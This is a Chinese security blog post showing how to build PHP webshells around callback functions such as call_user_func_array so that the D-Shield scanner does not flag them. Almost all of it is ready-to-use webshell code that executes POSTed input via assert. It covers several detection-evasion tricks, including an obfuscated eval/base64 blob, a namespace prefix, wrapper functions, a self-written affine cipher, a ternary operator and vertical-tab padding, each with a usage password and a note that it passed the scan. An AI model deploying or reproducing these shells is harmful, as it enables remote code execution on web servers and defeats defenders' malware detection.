





回调函数绕过D盾小套路

- - -

# 回调函数绕过D盾小套路

> 最近略看表哥和是师傅们的文章，听说D盾把所有回调函数都拉黑了，存在回调函数就报可疑。今天我将给大家带来几种消除这个可疑的几种方法和思路，供大家参考。大家可以根据思路自行修改。

常见的回调函数如下：

```plain
call_user_func_array()
call_user_func()
array_udiff()
array_filter() 
array_walk()  
array_map()
array_reduce()
array_walk_recursive()
registregister_shutdown_function()
register_tick_function()
filter_var() 
filter_var_array() 
uasort() 
uksort()
```

接下来我就随机选择一个回调函数简单构造一些免杀马吧。那就直接选择上述第一个call\_user\_func\_array()函数吧，这个函数的作用是调用回调函数，并把一个数组参数作为回调函数的参数，使用说明如下：

```plain
call_user_func_array ( callable $callback , array $param_arr ) : mixed
```

把第一个参数作为回调函数（`callback`）调用，把参数数组作（`param_arr`）为回调函数的的参数传入。

因此首先我就随便写了一个简单的木马如下：

```plain
<?php
    call_user_func_array('assert', array($_POST['a']));
?>
```

使用最新版本的D盾查杀如下，报了4级可疑：

[](https://xzfile.aliyuncs.com/media/upload/picture/20191122221019-d0cf83b6-0d31-1.png)

好了，已经正确表明D盾把回调函数call\_user\_func\_array拉黑了，接下来将是我的重点，介绍如何绕过这种检测。

## 混淆加密绕过

关于这个混淆加密绕过，我用了一种十分古老的工具"微盾php脚本加密专家"混淆加密，因为方便，哈哈，大家也可以自行混淆加密。直接将我上诉第一次写的D盾报了4级可疑的代码

```plain
<?php
    call_user_func_array('assert', array($_POST['a']));
?>
```

进行混淆加密过后得到了如下结果：成功绕过D盾

```plain
<?php // This file is protected by copyright law & provided under license. Copyright(C) 2005-2009 www.vidun.com, All rights reserved.
$OOO0O0O00=__FILE__;$OOO000000=urldecode('%74%68%36%73%62%65%68%71%6c%61%34%63%6f%5f%73%61%64%66%70%6e%72');$OO00O0000=128;$OOO0000O0=$OOO000000{4}.$OOO000000{9}.$OOO000000{3}.$OOO000000{5};$OOO0000O0.=$OOO000000{2}.$OOO000000{10}.$OOO000000{13}.$OOO000000{16};$OOO0000O0.=$OOO0000O0{3}.$OOO000000{11}.$OOO000000{12}.$OOO0000O0{7}.$OOO000000{5};$O0O0000O0='OOO0000O0';eval(($$O0O0000O0('JE9PME9PMDAwMD0kT09PMDAwMDAwezE3fS4kT09PMDAwMDAwezEyfS4kT09PMDAwMDAwezE4fS4kT09PMDAwMDAwezV9LiRPT08wMDAwMDB7MTl9O2lmKCEwKSRPMDAwTzBPMDA9JE9PME9PMDAwMCgkT09PME8wTzAwLCdyYicpOyRPTzBPTzAwME89JE9PTzAwMDAwMHsxN30uJE9PTzAwMDAwMHsyMH0uJE9PTzAwMDAwMHs1fS4kT09PMDAwMDAwezl9LiRPT08wMDAwMDB7MTZ9OyRPTzBPTzAwTzA9JE9PTzAwMDAwMHsxNH0uJE9PTzAwMDAwMHswfS4kT09PMDAwMDAwezIwfS4kT09PMDAwMDAwezB9LiRPT08wMDAwMDB7MjB9OyRPTzBPTzAwME8oJE8wMDBPME8wMCwxMjYwKTskT08wME8wME8wPSgkT09PMDAwME8wKCRPTzBPTzAwTzAoJE9PME9PMDAwTygkTzAwME8wTzAwLDM4MCksJ0VudGVyeW91d2toUkhZS05XT1VUQWFCYkNjRGRGZkdnSWlKakxsTW1QcFFxU3NWdlh4WnowMTIzNDU2Nzg5Ky89JywnQUJDREVGR0hJSktMTU5PUFFSU1RVVldYWVphYmNkZWZnaGlqa2xtbm9wcXJzdHV2d3h5ejAxMjM0NTY3ODkrLycpKSk7ZXZhbCgkT08wME8wME8wKTs=')));return;?>
kr9NHenNHenNHe1zfukgFMaXdoyjcUImb19oUAxyb18mRtwmwJ4LT09NHr8XTzEXRJwmwJXPkr9NTzEXHenNHtILT08XT08XHr8XhtONTznNTzEXHr8Pkr8XHenNHr8XHtXLT08XHr8XHeEXhUXmOB50cbk5d3a3D2iUUylRTlfNaaOnCAkJW2YrcrcMO2fkDApQToxYdanXAbyTF1c2BuiDGjExHjH0YTC3KeLqRz0mRtfnWLYrOAcuUrlhU0xYTL9WAakTayaBa1icBMyJC2OlcMfPDBpqdo1Vd3nxFmY0fbc3Gul6HerZHzW1YjF4KUSvkZLphUL7cMYSd3YlhtONHeEXTznNHeEpK2a2CBXPkr9NHenNHenNHtL7eWpMfB5jfolvdJn2HeyjCB5vhtl7eWpZcbO1FM4ICbYzcbk0KX0hgW0hC2ySdy91F2aZb2c1dMYgCbkZCbLPfjExC2yVdZIpRoyZFMy5htOgAr9TaySmCUffhUL7eWP=
```

木马使用方法：

密码：a

扫描结果如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20191122221110-ef502638-0d31-1.png)

## `&&`绕过

使用`&&`符号将所有代码放到同一行来执行

```plain
<?php
    ($a = 'assert')&&($b = $_POST['a'])&&call_user_func_array($a, array($b));
?>
```

简单解释：同一行代码使用&&符号连接是按照从左到右的顺序执行的，所以首先将assert赋值给变量$a，然后将从客户端post过来的参数赋值给变量$b，再使用回调函数调用assert函数，执行从客户端post过来的数据。

木马使用方法：

密码：a

成功绕过，D盾扫描结果如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20191122221205-0fd2705a-0d32-1.png)

## 命名空间绕过

这个就更简单了，直接在回调函数前加上命名空间反斜杠`\`即可成功绕过。

绕过代码如下：

```plain
<?php
    \call_user_func_array('assert', array($_POST['a']));
?>
```

D盾扫描结果如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20191122220944-bc19ed30-0d31-1.png)

木马使用方法：

密码：a

## 函数绕过

随便写个函数，将回调函数藏到函数里面去，将代码执行函数和post的参数通过参数传给函数，即可成功绕过，绕过代码如下：

```plain
<?php
    function v01cano($aaa,$bbb){
        call_user_func_array($aaa, $bbb);
    }
    v01cano('assert',array($_POST['a']));
?>
```

这样也能绕？这也太假了吧。

木马使用方法：

密码：a

D盾扫描结果如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20191122221308-35427826-0d32-1.png)

当然也可以将回调函数放在类里面，个人认为这与放在函数里面相似，所以不在赘述了。

## 自写加密函数绕过

这个可能比前面的会略微复杂一点点，因为这里我的代码执行函数assert直接传入回调函数被D盾识别了，所以我就需要隐藏assert，隐藏方法太多了，下面我就自己写了个仿射变换隐藏一下assert。

```plain
<?php
    function encode($para0){
        $m=strtolower($para0);
        $a = 7;
        $b = 21;
        $c = "";
        for($i=0;$i<strlen($m);$i++)
        {

            $c=$c.chr((((ord(substr($m,$i,1))-97)*$a+$b)%26)+97);

        }
        return $c;
    }
    $a = $_POST['a'];
    call_user_func_array(encode('xhhfsw'), array($a));
?>
```

自己随便写了个函数就绕过了。

木马使用方法：

密码：a

D盾检测结果如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20191122221408-595baafc-0d32-1.png)

## 三元运算符绕过

当我随手写下如下木马时：

```plain
<?php
    $a=$_GET['a'];
    $b=$_POST['a'];
    call_user_func_array($a, array($b));
?>
```

D盾报了二级可疑，可疑原因如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20191122221454-749a0ff2-0d32-1.png)

他竟然做了简单的替换，将我的变量$a的值直接替换到了回调函数中，所以报了可疑，这就太有趣了，我想看看D盾会不会稍微复杂的运算，我猜它不会，于是我就写下了三元运算符：成功绕过D盾。

```plain
<?php
    $a=$_GET['a'];
    $b=$_POST['a'];
    call_user_func_array($a==$a?$a:$a, array($b));
?>
```

木马使用方法：

url?a=assert

密码：a

D盾检测结果如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20191122221547-94864470-0d32-1.png)

## 垂直制表符绕过

随意选择一个转义符绕过，这里选择了垂直制表符。

```plain
<?php
    $b=$_POST['a'];
    $a="\x0Bassert";
    call_user_func_array(trim($a), array($b));
?>
```

使用垂直制表符最后要记得使用trim或者其他函数将空格去除即可。

D盾扫描结果如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20191122221627-ac38c5e8-0d32-1.png)

我就简单介绍到这里吧，仅仅提供一些思路和方法给大家，其实方法太多太多了，还能继续写，静态查杀的弊端已经越来越凸显了，让我们一起向动态查杀进攻吧。其实我感觉D盾也不是纯静态的查杀吧，毕竟在上述绕过的过程中大家也看到了，D盾也能够获取一些变量的值，做简单的运算，代换，只是不会做复杂的运算和代换而已。最后希望D盾能够向动态查杀进攻，查杀效果能够越来越强大。
